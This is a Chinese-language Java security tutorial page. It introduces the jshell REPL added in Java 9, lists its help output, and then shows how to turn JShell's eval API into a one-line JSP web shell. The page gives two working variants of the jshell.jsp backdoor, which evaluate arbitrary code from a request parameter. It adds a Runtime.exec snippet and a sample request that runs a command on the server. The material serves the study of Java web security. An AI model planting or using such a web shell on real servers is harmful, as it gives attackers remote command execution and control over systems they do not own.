 # JShell

从`Java 9`开始提供了一个叫`jshell`的功能，`jshell`是一个`REPL(Read-Eval-Print Loop)`命令行工具，提供了一个交互式命令行界面，在`jshell`中我们不再需要编写类也可以执行Java代码片段，开发者可以像`python`和`php`一样在命令行下愉快的写测试代码了。

命令行执行`jshell`即可进入`jshell`模式：

<img src="https://javasec.oss-cn-hongkong.aliyuncs.com/images/image-20191219163053592.png" alt="image-20191219163053592" style="zoom:50%;" />

输入:`/help`可以查看具体的命令:

```bash
|  键入 Java 语言表达式, 语句或声明。
|  或者键入以下命令之一:
|  /list [<名称或 id>|-all|-start]
|  	列出您键入的源
|  /edit <名称或 id>
|  	编辑按名称或 id 引用的源条目
|  /drop <名称或 id>
|  	删除按名称或 id 引用的源条目
|  /save [-all|-history|-start] <文件>
|  	将片段源保存到文件。
|  /open <file>
|  	打开文件作为源输入
|  /vars [<名称或 id>|-all|-start]
|  	列出已声明变量及其值
|  /methods [<名称或 id>|-all|-start]
|  	列出已声明方法及其签名
|  /types [<名称或 id>|-all|-start]
|  	列出已声明的类型
|  /imports 
|  	列出导入的项
|  /exit 
|  	退出 jshell
|  /env [-class-path <路径>] [-module-path <路径>] [-add-modules <模块>] ...
|  	查看或更改评估上下文
|  /reset [-class-path <路径>] [-module-path <路径>] [-add-modules <模块>]...
|  	重启 jshell
|  /reload [-restore] [-quiet] [-class-path <路径>] [-module-path <路径>]...
|  	重置和重放相关历史记录 -- 当前历史记录或上一个历史记录 (-restore)
|  /history 
|  	您键入的内容的历史记录
|  /help [<command>|<subject>]
|  	获取 jshell 的相关信息
|  /set editor|start|feedback|mode|prompt|truncation|format ...
|  	设置 jshell 配置信息
|  /? [<command>|<subject>]
|  	获取 jshell 的相关信息
|  /! 
|  	重新运行上一个片段
|  /<id> 
|  	按 id 重新运行片段
|  /-<n> 
|  	重新运行前面的第 n 个片段
|  
|  有关详细信息, 请键入 '/help', 后跟
|  命令或主题的名称。
|  例如 '/help /list' 或 '/help intro'。主题:
|  
|  intro
|  	jshell 工具的简介
|  shortcuts
|  	片段和命令输入提示, 信息访问以及
|  	自动代码生成的按键说明
|  context
|  	/env /reload 和 /reset 的评估上下文选项
```

## 使用JShell执行代码片段

`jshell`不仅是一个命令行工具，在我们的应用程序中同样也可以调用`jshell`内部的实现API，也就是说我们可以利用`jshell`来执行Java代码片段而不再需要将Java代码编译成class文件后执行了。

`jshell`调用了`jdk.jshell.JShell`类的`eval`方法来执行我们的代码片段，那么我们只要想办法调用这个`eval`方法也就可以实现真正意义上的一句话木马了。

**`jshell.jsp`一句话木马示例:**

```jsp
<%=jdk.jshell.JShell.builder().build().eval(request.getParameter("src"))%>
```

程序执行后会输出一些不必要的信息，如果有强迫症可以修改为：

```jsp
<%=jdk.jshell.JShell.builder().build().eval(request.getParameter("src")).get(0).value().replaceAll("^\"", "").replaceAll("\"$", "")%>
```

然后我们需要编写一个执行本地命令的代码片段：

```java
new String(Runtime.getRuntime().exec("pwd").getInputStream().readAllBytes())
```

`Java 9`的`java.io.InputStream`类正好提供了一个`readAllBytes`方法，我们从此以后再也不需要按字节读取了。

浏览器请求：[http://localhost:8080/jshell.jsp?src=new%20String(Runtime.getRuntime().exec(%22pwd%22).getInputStream().readAllBytes())](http://localhost:8080/jshell.jsp?src=new String(Runtime.getRuntime().exec("pwd").getInputStream().readAllBytes()))

程序执行结果：

<img src="https://javasec.oss-cn-hongkong.aliyuncs.com/images/image-20191219170956644.png" alt="image-20191219163053592" style="zoom:50%;" />